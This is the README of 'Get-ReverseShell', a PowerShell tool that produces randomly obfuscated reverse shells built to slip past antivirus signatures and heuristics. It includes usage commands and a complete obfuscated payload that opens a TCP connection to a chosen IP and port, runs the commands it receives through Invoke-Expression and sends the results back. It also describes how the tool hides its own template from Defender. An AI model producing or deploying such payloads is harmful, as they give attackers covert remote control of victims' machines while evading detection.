 # Obfuscated PowerShell Reverse Shells

Get-ReverseShell is a project that stems from the Invoke-PSObfuscation framework, with the sole purpose of producing obfuscated reverse shells for PowerShell. With the way this framework is built, each component of the original payload goes through a randomly selected generator, resulting in a different yield with every execution of this script. 

Due to the complexity of the obfuscation logic, the resulting payloads will be very difficult to signature and will slip past heuristic engines that are not programmed to emulate the inherited logic.

___IMPORTANT___

Despite this script being built on Kali, you can also use it on Windows to produce these payloads. While I encourage you to keep this script on Kali, I have added some safeguards for those that will store this on a system with Antivirus installed, such as Windows with Defender enabled.

This script contains a function called `Get-Template` that produces the reverse shell payload that is passed through each of the generator functions. If the template script is stored in its raw state, it would be instantly flagged once it's written to disk or executed. To help prevent this from happening, the function has been relatively obfuscated. However, the obfuscated payloads themselves are fair game to store where you deem appropriate.

## Requirements

This script was built and tested on the following version Kali Linux and PowerShell. The obfuscated reverse shells are compatible on Windows/Linux systems that support PowerShell newer than version 2.0

```shell
┌──(kali㉿kali)-[/home/kali]
└─PS> $PSVersionTable

Name                           Value
----                           -----
PSVersion                      7.2.4
PSEdition                      Core
GitCommitId                    7.2.4
OS                             Linux 5.18.0-kali5-amd64 #1 SMP PREEMPT_DYNAMIC Debian 5.18.5-1kali6 (2022-07-07)
Platform                       Unix
PSCompatibleVersions           {1.0, 2.0, 3.0, 4.0…}
PSRemotingProtocolVersion      2.3
SerializationVersion           1.1.0.1
WSManStackVersion              3.0
```

## Usage Examples

To load the script on Kali Linux, open a terminal then run `pwsh`. With PowerShell now running in your terminal, you can load the script into your current session by dot sourcing the script.

```shell
┌──(kali㉿kali)-[~]
└─$ pwsh
PowerShell 7.2.4
Copyright (c) Microsoft Corporation.

https://aka.ms/powershell
Type 'help' to get help.


┌──(kali㉿kali)-[/home/kali]
└─PS> . ./Get-ReverseShell.ps1
```

If you run the script and supply only an IP address and port, then every supported script component will be obfuscated and output to the console.

```shell
┌──(kali㉿kali)-[/home/kali]
└─PS> Get-ReverseShell -Ip 127.0.0.1 -Port 443

     >> Layer 0 Reverse Shell
     >> https://github.com/gh0x0st

$9bu74RLxidUDk = & (("4us0Qpzt5b9navewiNEjqfxmZgRrSBKFW3JMVX2I8LDY6HACyTc7dOhkP-U1loG")[17,14,15,57,53,9,19,14,50,7] -join '') ([string]::join('', ( (83,121,115,116,101,109,46,78,101,116,46,83,111,99,107,101,116,115,46,84,67,80,67,108,105,101,110,116) |%{;$_}|%{ ( [char][int] $_)})) |%{;$_}| % {$_})(([string]::join('', ( (49,50,55,46,48,46,48,46,49) |%{;$_}|%{ ( [char][int] $_)})) |%{;$_}| % {$_}),$(0+0-0-443+443+443));$kxjaLK6qrECXjf2 = ((& (("tFqYIQ1HnjmkK9PdoUbMzlCR27uv4yEpNxr85L-XSfWJhDiZTac3BGg6wesVOA0")[46,8,27,16,11,57,38,57,33,31,34,57,58,58,46,16,8] -join '')([string]::join('', ( (36,57,98,117,55,52,82,76,120,105,100,85,68,107,46,71,101,116,83,116,114,101,97,109,40,41) |%{ ( [char][int] $_)})) | % {$_})));[byte[]]$9uR0tN24DBEA9YsVNLOnIrx2s = 0..$($(0+60000)+$(0+0-0+5000)+(500)+($(35)))|%{;$_}|%{0};while(($5aH = $kxjaLK6qrECXjf2.Read($9uR0tN24DBEA9YsVNLOnIrx2s, 0, $9uR0tN24DBEA9YsVNLOnIrx2s.Length)) -ne 0){;$jIguPvaSK1ZilFymBVhTA = (& (("4us0Qpzt5b9navewiNEjqfxmZgRrSBKFW3JMVX2I8LDY6HACyTc7dOhkP-U1loG")[17,14,15,57,53,9,19,14,50,7] -join '') -TypeName ([string]::join('', ( (83,121,115,116,101,109,46,84,101,120,116,46,65,83,67,73,73,69,110,99,111,100,105,110,103) |%{;$_}|%{ ( [char][int] $_)})) |%{;$_}| % {$_})).GetString($9uR0tN24DBEA9YsVNLOnIrx2s,0, $5aH);$U = (& (("PljCFMKRq1-LpYeVWtNnku2Q8iJT0OzHg7Uxo5svyXh9GcAEawIb643dmfBSZrD")[50,19,39,36,20,14,10,47,35,12,61,14,38,38,25,36,19] -join '') $jIguPvaSK1ZilFymBVhTA 2>&1 |%{;$_}| & (("MTSO1XIqriP2ox4bGsuZtk0wEHhj9f8QnVdaBgcyLFN6Cz3DYWR-l5vUAmKJpe7")[3,18,20,51,2,20,8,9,32,37] -join '') );$GemSDxKaU = $U + $([char](30+87-30)+[char](97*72/97)+[char](106*65/106)+[char](21*84/21)+[char](0+32-0)+[char](88*87/88)+[char](0+72-0)+[char](0+69-0)+[char](0+82-0)+[char](51+69-51)+[char](80+62-80)+[char](42*32/42)) -replace $('W'+'H'+'E'+'R'+'E'),(& ([string]::join('', ( (71,101,116,45,76,111,99,97,116,105,111,110) |%{;$_}|%{ ( [char][int] $_)})) |%{;$_}| % {$_})).Path -replace $([char](113*87/113)+[char](0+72-0)+[char](104*65/104)+[char](29+84-29)),([string]::join('', ( (80,83) |%{;$_}|%{ ( [char][int] $_)})) |%{;$_}| % {$_});$xz1V87nrk4C9g2omRSHwHrTU1 = ([text.encoding]::ASCII).GetBytes($GemSDxKaU);$kxjaLK6qrECXjf2.Write($xz1V87nrk4C9g2omRSHwHrTU1,0,$xz1V87nrk4C9g2omRSHwHrTU1.Length);$($kxjaLK6qrECXjf2.Flush())};$((& (("KDU-6exQHZgPzTYpVCvijL79Nf4du5ns2F3oym8WSrbGOE10tIqcAJlBwRMhXak")[19,30,18,35,62,5,3,5,6,15,41,5,31,31,19,35,30] -join '')([string]::join('', ( (36,57,98,117,55,52,82,76,120,105,100,85,68,107,46,67,108,111,115,101,40,41) |%{ ( [char][int] $_)})) | % {$_})))
```

In lieu of having the output sent to the console, we can also have the output saved to a file instead.

```shell
┌──(kali㉿kali)-[/home/kali]
└─PS> Get-ReverseShell -Ip 127.0.0.1 -Port 443 -OutFile obfuscated.ps1

     >> Layer 0 Reverse Shell
     >> https://github.com/gh0x0st

[*] Writing payload to obfuscated.ps1
```

Where this script has been built from `Invoke-PSObfuscation`, we have the ability to target specific script components. In addition to this, if we wanted to learn more about what was obfuscated and back trace the function that generated the obfuscated logic, we can include to the `ShowChanges` paramter. This paramter will instruct the script to display each targeted component, the obfuscated value that will be replacing it and the generator that was used. 

```shell
┌──(kali㉿kali)-[/home/kali/]
└─PS> Get-ReverseShell -Ip 127.0.0.1 -Port 443 -Aliases -Cmdlets -Methods -ShowChanges

     >> Layer 0 Reverse Shell
     >> https://github.com/gh0x0st

[*] Resolving aliases
[-] % >> ForEach-Object
[-] iex >> Invoke-Expression
[-] pwd >> Get-Location
[*] Targeting cmdlets
[-] Generator 1 >> New-Object >> & (("-FxDfVShXwGbQL92Ir4OAKiYvBce3EuUz6tTH8sqCM15aR7gZPdnyjJW0mlpoNk")[61,27,9,0,19,11,53,27,26,34] -join '')
[-] Generator 1 >> New-Object >> & (("AJkOmSpw2HGodY18EqsnlCX6iZbDx0yhKIueL9BRM-3NWUPQ5r7Fjaz4VfcvgTt")[43,35,7,41,3,26,52,35,58,62] -join '')
[-] Generator 2 >> Invoke-Expression >> & ([string]::join('', ( (73,110,118,111,107,101,45,69,120,112,114,101,115,115,105,111,110) |%{ ( [char][int] $_)})) | % {$_})
[-] Generator 1 >> Out-String >> & (("FKBgMmk43lvqcnoZEzWU1rHViJwpAQuOfxGbLC82Y5Ih9XNTd-syS6aDtPje0R7")[31,30,56,49,52,56,21,24,13,3] -join '')
[-] Generator 1 >> Get-Location >> & (("hmdf2Y5RJ8wNAF19rIVvOonG6ckpH4sSlx0QWqCyz3bBtUaguMZ-jiXPKELD7eT")[23,61,44,51,58,21,25,46,44,53,21,22] -join '')
[*] Targeting method invocations
$TuVIzXNvenGCmPU.GetStream() >> $($(($TuVIzXNvenGCmPU.GetStream())))
[-] Generator 2 >> $VaKhGdMJw6.Flush() >> $($(& ([string]::join('', ( (105,110,118,111,107,101,45,101,120,112,114,101,115,115,105,111,110) |%{ ( [char][int] $_)})) | % {$_})([string]::join('', ( (36,86,97,75,104,71,100,77,74,119,54,46,70,108,117,115,104,40,41) |%{ ( [char][int] $_)})) | % {$_})))
$TuVIzXNvenGCmPU.Close() >> $($($($TuVIzXNvenGCmPU.Close())))
```
